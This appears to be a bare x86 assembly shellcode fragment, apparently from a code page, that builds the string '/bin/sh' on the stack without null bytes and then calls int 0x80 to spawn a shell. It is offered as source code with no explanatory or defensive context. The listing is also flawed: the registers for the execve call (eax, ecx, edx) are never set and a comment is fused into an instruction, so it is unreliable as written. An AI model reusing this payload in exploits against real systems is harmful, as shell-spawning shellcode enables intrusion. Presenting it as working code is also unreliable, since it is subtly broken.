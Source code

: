 ```
    
    /*Push "/sh\x00" on the stack*/
    xor ebx, ebx
    mov bl, 0x68
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x73
    mov bl, 0x2f
    push ebx
    nop
    
    /*Push "/bin" on the stack*/
    mov bh, 0x6e
    mov bl, 0x69
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x62
    mov bl, 0x2f
    push ebx
    nop
              
    /*Move the esp (that points to "/bin/sh\x00") in ebx*/
    mov ebx, esp/*Syscall*/
    int 0x80
```
:::
